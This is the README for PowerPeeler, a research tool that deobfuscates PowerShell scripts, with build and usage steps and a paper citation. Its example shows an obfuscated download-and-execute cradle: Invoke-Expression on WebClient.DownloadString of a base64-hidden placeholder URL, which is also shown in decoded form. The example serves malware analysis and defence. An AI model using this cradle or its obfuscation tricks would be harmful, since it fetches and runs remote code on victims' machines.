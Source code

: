 # PowerPeeler

>A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts

[中文版](README.zh-CN.md)



### Related resources

- conference paper
- full paper：[arxiv](https://arxiv.org/abs/2406.04027)



### Usage

1. Environment requirement

   - base environment: refer to [PowerShell official build instruction](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 3.1
   - pwsh(powershell>=7)
   - PSScriptAnalyzer(optional, for code formatting)
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)(optional, static and dynamic combination)

2. Get the tool

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   Or

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

3. Compile sandbox

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

4. Tool usage

   1. Change the directory to prevent some malicious scripts from polluting the current directory: ```cd sandbox```
   2. Enter special pwsh environments: ```../pwsh```
   3. Execute anti-obfuscation scripts in the special pwsh environment

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath InputFileLocation --OutputPath OutputFileLocation [-cmd] [-log]
   ```
​	```-st --SettingType```	deobfuscation mode, with several presets, the code can be modified yourself
​	```-ip --InputPath```	input file location
​	```-op --OutputPath```	output file location
​	```-cmd --IsCmd```	cmd one-line mode
​	```-log --SaveLog```	save log



### Example

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### Citation format

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```



